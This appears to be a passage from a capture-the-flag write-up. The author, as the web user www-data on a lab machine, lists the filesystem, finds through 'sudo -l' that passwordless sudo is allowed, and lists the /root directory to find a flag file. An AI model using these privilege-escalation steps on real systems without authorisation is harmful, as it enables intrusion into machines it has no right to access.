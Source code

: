 ```
cd ../../../../ ; ls -la
```

I found

```
total 88
drwxr-xr-x  23 root root  4096 Dec 23 10:29 .
drwxr-xr-x  23 root root  4096 Dec 23 10:29 ..
drwxr-xr-x   2 root root  4096 Nov 14  2018 bin
drwxr-xr-x   3 root root  4096 Nov 14  2018 boot
drwxr-xr-x  14 root root  3260 Dec 23 10:29 dev
drwxr-xr-x  94 root root  4096 Dec 23 10:29 etc
drwxr-xr-x   4 root root  4096 Feb 10  2019 home
lrwxrwxrwx   1 root root    30 Nov 14  2018 initrd.img -> boot/initrd.img-4.4.0-1072-aws
drwxr-xr-x  21 root root  4096 Feb 10  2019 lib
drwxr-xr-x   2 root root  4096 Nov 14  2018 lib64
drwx------   2 root root 16384 Nov 14  2018 lost+found
drwxr-xr-x   2 root root  4096 Nov 14  2018 media
drwxr-xr-x   2 root root  4096 Nov 14  2018 mnt
drwxr-xr-x   2 root root  4096 Nov 14  2018 opt
dr-xr-xr-x 134 root root     0 Dec 23 10:29 proc
drwx------   4 root root  4096 Feb 10  2019 root
drwxr-xr-x  25 root root   880 Dec 23 10:29 run
drwxr-xr-x   2 root root  4096 Nov 14  2018 sbin
drwxr-xr-x   5 root root  4096 Feb 10  2019 snap
drwxr-xr-x   2 root root  4096 Nov 14  2018 srv
dr-xr-xr-x  13 root root     0 Dec 23 10:29 sys
drwxrwxrwt   8 root root  4096 Dec 23 11:39 tmp
drwxr-xr-x  10 root root  4096 Nov 14  2018 usr
drwxr-xr-x  14 root root  4096 Feb 10  2019 var
lrwxrwxrwx   1 root root    27 Nov 14  2018 vmlinuz -> boot/vmlinuz-4.4.0-1072-aws
```

The `root` directory seems interesting. Only superusers can access it.

Using `sudo -l`, I found that I could run `sudo` with no password!

```
Matching Defaults entries for www-data on ip-10-10-177-115.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-177-115.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

This means that I would be able to look at the files in the `root` directory.

```bash
sudo  ls /root
```

```
3rd.txt
snap
```
